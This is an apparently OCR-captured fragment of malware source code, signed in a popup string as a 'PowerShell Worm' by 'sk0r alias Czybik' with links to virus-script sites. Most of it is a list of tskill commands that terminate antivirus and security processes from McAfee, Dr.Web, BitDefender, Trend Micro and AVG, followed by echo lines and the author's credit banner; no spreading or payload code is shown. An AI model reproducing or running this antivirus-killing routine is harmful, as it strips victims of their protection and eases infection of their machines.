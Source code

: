     tskill avgamsvr /a
    tskill vsserv /a
    tskill bdss /a
    tskill xcommsvr /a
    tskill bdnagent /a
    tskill bdoesrv /a
    tskill bdmcon /a
    tskill bdswitch /a
    tskill rtvr /a
    tskill bdsubmit /a
    tskill bdlite /a
    tskill agentsvr /a
    tskill tmproxy /a
    tskill PcCtlCom /a
    tskill pccguide /a
    tskill qttask /a
    tskill patch /a
    tskill Tmntsrv /a
    tskill PccPrm /a
    tskill DrWebUpW /a
    tskill spidernt /a
    tskill DrWebScd /a
    tskill DrWeb32w /a
    tskill drwadins /a
    tskill mcupdui /a
    tskill McTskshd /a
    tskill McAppIns /a
    tskill mghtml /a
    tskill McShield /a
    tskill Mcdetect /a
    tskill McVSEscn /a
    tskill oasclnt /a
    tskill mcvsshld /a


    echo "$strInfoString_one ";
    echo "$strInfoString_two ";
    echo "$strInfoString_three ";
    echo "$strInfoString_four ";

    $wshs.popup("www.sk0r-scripts.tk - www.sk0r-virii.tk - 
    www.czybik-kit.tk | Worm ?006 by sk0r alias Czybik",2,"PowerShell Worm by sk0r alias Czybik");

    exit ;
